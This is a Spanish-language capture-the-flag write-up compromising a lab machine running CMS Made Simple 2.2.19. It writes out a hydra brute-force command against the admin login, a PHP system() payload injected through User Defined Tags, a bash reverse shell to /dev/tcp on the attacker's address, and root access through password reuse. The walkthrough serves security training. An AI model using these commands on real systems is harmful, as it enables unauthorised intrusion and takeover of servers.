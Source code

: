 Empezamos la maquina Dificil

![image](https://github.com/user-attachments/assets/71b619b0-2b37-412e-83a7-83b78f38fe80)

nmap: 22,80

---
entramos a la pagina principal y no hay mucho

![image](https://github.com/user-attachments/assets/e7c0645d-1ef4-4150-94ae-581a881de90a)

 nos vamos al código fuente y dice al final:
 
![image](https://github.com/user-attachments/assets/4e554fc6-666b-408a-8609-1b41c78ea9a7)

entramos:
> http://172.17.0.2/cmsms/
> 
![image](https://github.com/user-attachments/assets/e690e84e-f33d-4b2a-9c3c-53e1b49b5e6c)

buscando y haciendo Fuerza bruta de directorios, no encontraba mucho, pero me entro la curiosidad por esto:

![image](https://github.com/user-attachments/assets/77cc8607-d8e3-4ae9-b77f-5e8c4a8833a5)

Esta en PHP así que probablemente tiene un "login.php" y al final di con esto
> http://172.17.0.2/cmsms/admin/login.php

![image](https://github.com/user-attachments/assets/6b2308bf-3725-4455-b601-cbfa0091862f)

que nos lleva al login

si capturo con burpsuite el login que ya tiene por defecto un usuario y contraseña que dicen que es incorrecto, da esto:
> username=admin&password=christelle&loginsubmit=Submit

![image](https://github.com/user-attachments/assets/7d840e91-62f4-4ccd-ae4e-0d7931073828)

Que realmente no nos dice mucho. 

hacemos un ataque de fuerza bruta:

    - hydra -l admin -P /usr/share/wordlists/rockyou.txt  "http-post-form://172.17.0.2/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect"  

![image](https://github.com/user-attachments/assets/6d2f3c8e-5ace-4a65-a55d-efcfe4078650)


y nos da la contraseña "chocolate" para admin
probamos en el panel de login
![[panel admin.png]]
ya estamos dentro el panel, vemos una versión antigua entonces buscamos las vulnerabilidades conocidas para la versión 2.2.19 de CMS Made Simple. las cuales encontré con esta explicación 

> |[CVE-2024-27625](https://translate.google.com/website?sl=en&tl=es&hl=es&client=srp&u=https://www.cve.org/CVERecord?id%3DCVE-2024-27625)|La versión 2.2.19 de CMS Made Simple es vulnerable a ataques de secuencias de comandos entre sitios (XSS). Esta vulnerabilidad reside en el módulo Administrador de archivos del panel de administración. En concreto, el problema surge debido a una limpieza inadecuada de la entrada del usuario en el campo "Nuevo directorio".|
  [CVE-2024-27623](https://translate.google.com/website?sl=en&tl=es&hl=es&client=srp&u=https://www.cve.org/CVERecord?id%3DCVE-2024-27623)|La versión 2.2.19 de CMS Made Simple es vulnerable a la inyección de plantillas del lado del servidor (SSTI). La vulnerabilidad existe en el Administrador de diseño, en particular al editar las rutas de navegación.|

aquí la pagina de la explicación sobre la vulnerabilidad: https://cve-mitre-org.translate.goog/cgi-bin/cvekey.cgi?keyword=cms+made+simple&_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc


nos vamos a: 
> extensiones > user defined tags > add defined tags > le colocamos un nombre y pruebo su vulnerabilidad 

![[prueba.png]]

en code colocamos:

    - <?php echo system('id'); ?>

veremos que queda guardado y entramos al "prueba" que creamos:

guardamos y colocamos "run" nos mostrara este mensaje:
![[prueba 2.png]]

probamos si la vulnerabilidad que encontramos esta funcionando:
![[prueba 3.png]]
nos dará: 

>uid=33(www-data) gid=33(www-data) groups=33(www-data) uid=33(www-data) gid=33(www-data) groups=33(www-data)

o sea que la vulnerabilidad esta funcionando

entonces modificamos ese código dentro del paréntesis y colocamos así la reverse shell con nuestro terminal en escucha:

     - <?php echo system('bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"'); ?>

![[reverse .png]]

entonces la lanzamos con el terminal en escucha y entramos.
![[conexion .png]]
dentro no encontré nada y probé con la misma contraseña de admin del panel por curiosidad con el usuario  admin
ingresamos la contraseña "chocolate" al su root
![[final.png]]
y somos root! 


